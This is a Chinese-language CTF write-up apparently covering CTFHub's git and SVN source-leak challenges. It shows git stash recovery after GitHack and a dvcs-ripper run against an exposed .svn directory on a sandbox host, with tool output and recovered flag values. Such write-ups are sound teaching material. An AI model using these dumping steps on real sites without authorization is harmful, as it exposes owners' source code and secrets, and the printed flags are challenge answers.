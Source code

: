    同样使用Githack工具处理git泄露情况。

   git stash是git一个很有用的命令，它的作用是把当前未提交的修改暂存起来，让仓库还原到最后一次提交的状态。常用于更新、同步代码或者保存多个修改版本等情况下。

   https://jingyan.baidu.com/article/49ad8bceacac6b5834d8fa9a.html

   ```git
   git stash	# git stash命令会将仓库中的修改保存，建立一条stash信息，默认的说明信息是最后一次提交的节点号和提交说明。
   git stash save #‘说明信息’与1的效果一样，说明信息是指定的内容，更加利于了解stash的内容。
   git stash list #列出当前仓库下所有的stash条目，每一条stash用stash@{n}标识。
   git stash pop [stash] # 将stash的内容弹出，默认弹出最上面的那条，即stash@{0}。此外还可以在pop后加stash@{n}来指定要弹出的stash条目。
   git stash drop [stash] #丢弃stash条目，默认丢弃最上面的那条，即stash@{0}，此外还可以在drop后加stash@{n}来指定要丢弃的stash条目。
   git stash clear #清除所有的stash条目。
   git show stash@{n}	#当有多条记录并且过了一段时间忘记stash内容时通过该命令可以查看stash的具体内容
   ```

   这里执行

   ```git
   git stash list
   git stash pop
   ```

   就恢复了falg 文件

   [![BE6KY9.md.png](https://s1.ax1x.com/2020/10/23/BE6KY9.md.png)](https://imgchr.com/i/BE6KY9)

   同样之前的方法也可以解题。

   ```git
   git log
   git diff .......
   ```

3. index

   githack 恢复之后就在文件中。。。。

#### 5. SVN 泄露

当开发人员使用 SVN 进行版本控制，对站点自动部署。如果配置不当,可能会将.svn文件夹直接部署到线上环境。这就引起了 SVN 泄露漏洞。

版本控制系统
 集中式版本控制系统：Subversion(SVN)、CVS、VSS 等。
 分布式版本控制系统：Git、Mercurial(Hg) 等。
 具体区别比较可以看这个文章https://www.cnblogs.com/likebeta/archive/2012/12/18/2822805.html

使用 `dvcs-ripper`

https://github.com/kost/dvcs-ripper

- 安装：`sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl`
- gitclone: `git clone https://github.com/kost/dvcs-ripper`
- 进入目录
- 用 `./rip-svn.pl -v -u http://challenge-fb13f9afd9ee3b28.sandbox.ctfhub.com:10080/.svn/`

```bash
root@localhost:~/ctf/dvcs-ripper# ./rip-svn.pl -v -u http://challenge-ef41833848c08d6d.sandbox.ctfhub.com:10080/.svn/
[i] Found new SVN client storage format!
REP INFO => 1:file:///opt/svn/ctfhub:e43e7ef8-82fb-4194-9673-81c29de69c33
[i] Trying to revert the tree, if you get error, upgrade your SVN client!
已恢复“index.html”

root@localhost:~/ctf/dvcs-ripper# cat .svn/pristine/0c/0c5fb19b977dbe3945402427c5a732cb2d1d820a.svn-base 
ctfhub{7db562e25eb73483a9d6e5aaa9265c8a01ce423f}

```
